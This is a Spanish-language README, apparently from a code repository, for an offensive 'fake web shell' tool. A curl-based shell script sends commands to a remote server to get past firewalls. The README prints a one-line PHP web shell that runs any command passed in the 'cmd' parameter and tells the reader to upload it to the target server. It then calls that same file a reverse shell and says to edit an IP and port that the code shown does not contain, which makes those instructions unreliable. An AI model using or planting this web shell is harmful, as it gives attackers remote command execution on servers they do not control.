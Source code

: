 <!DOCTYPE html>
<html>
<body>
	<h1>Shell Interactivo con curl</h1>
	<p>Este script de shell interactivo envía comandos al servidor HTTP remoto a través de una URL que incluye el comando como parámetro de consulta y muestra la salida resultante en la terminal local. El script utiliza la utilidad curl para realizar solicitudes GET a la URL especificada. Es útil cuando un firewall no nos permite entablarnos una conexión por TCP con el equipo remoto.</p>
	<h2>Uso</h2>
	<p>Para utilizar este script, simplemente descargue el archivo "shell.sh" y ejecute el siguiente comando:</p>
	<pre><code>./shell.sh</code></pre>
	<p>Asegúrese de cambiar la dirección IP del servidor remoto en la URL de la línea 10.</p>
	<p>El script abrirá un shell interactivo. Simplemente ingrese los comandos que desea ejecutar en el servidor remoto.</p>
	<p>A continuación se muestra un ejemplo de un pequeño script en php que habría que subir al servidor para que funcione nuestra fake web shell:</p>
	<pre><code>&lt;?php system($_GET['cmd']); ?&gt;</code></pre>
	<p>Este archivo PHP puede cargar en el servidor remoto para establecer una conexión de shell inversa con el atacante. El archivo se puede ejecutar desde la línea de comandos usando el siguiente comando:</p>
	<pre><code>php reverse_shell.php</code></pre>
	<p>Asegúrese de cambiar la dirección IP y el puerto en el archivo PHP antes de cargarlo en el servidor remoto.</p>
</body>
</html>
